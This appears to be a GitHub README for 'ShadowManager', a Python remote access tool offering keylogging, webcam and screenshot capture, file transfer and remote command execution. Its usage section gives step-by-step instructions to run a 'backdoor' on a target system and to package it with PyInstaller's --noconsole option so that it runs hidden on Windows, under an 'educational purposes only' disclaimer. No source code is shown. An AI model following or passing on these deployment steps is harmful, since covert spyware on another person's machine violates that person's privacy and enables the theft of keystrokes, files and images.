 # ShadowManager

A remote access tool designed for educational purposes, showcasing how remote file operations, screenshots, webcam access, and keylogging work.

## Features

- **Screenshot Capture**: Take screenshots remotely.
- **Webcam Snapshot**: Capture images from the webcam.
- **Keylogger**: Record keystrokes.
- **File Management**: Upload and download files.
- **Command Execution**: Run shell commands remotely.

## Installation

### Navigate to the Project Directory

```bash
cd ShadowManager
```

### Install the Required Python Dependencies

```bash
pip install -r requirements.txt
```

### Usage

## Start the Server

```bash
python server.py
```

## Run theBackdoor on the Target System

```bash
python backdoor.py
```

### Converting backdoor.py to a .exe File on Windows

## Install PyInstaller

```bash
pip install pyinstaller
```

## Convert backdoor.py to a .exe File

```bash
pyinstaller --onefile --noconsole backdoor.py
```

- **onefile**: Packages everything into a single .exe file.
- **noconsole**: Prevents the console window from appearing when the .exe is run.

## Locate the .exe File

After running the above command, the .exe file will be in the dist folder inside your project directory.

## Transfer the .exe File or Download it to the Target

Transfer the .exe file to the target Windows system and run it.

### Disclaimer

This tool is for educational purposes only. Use responsibly and ethically.
